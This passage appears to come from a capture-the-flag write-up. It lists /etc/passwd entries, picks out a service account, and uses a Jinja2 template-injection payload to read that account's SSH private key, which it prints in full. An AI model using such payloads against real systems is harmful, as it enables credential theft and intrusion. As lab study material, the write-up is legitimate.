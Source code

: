 ```
avahi:x:113:116:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:114:117:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:115:119::/var/lib/saned:/usr/sbin/nologin
colord:x:116:120:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:117:121:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
geoclue:x:118:123::/var/lib/geoclue:/usr/sbin/nologin
smmta:x:119:124:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:120:125:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
</p>
```

Searching for users in the `/etc/passwd` file we note the line:
```
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
```

Which seems to be an interesting user with a `home` and a bash tty. During the nmap scan we saw that the SSH port is open. Using a guessing game, we can try to retrieve the SSH private key for this user. The payload looks like this:
```
{{ get_flashed_messages.__globals__.__builtins__.open("/home/svc_acc/.ssh/id_rsa").read()  
}}
```

I had to change the font to `Roboto` to make it work this time!
And the image generated in Figma:
![](images/ssh_idrsa.png)

And the `results.txt`:
```
<p>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----

</p>
```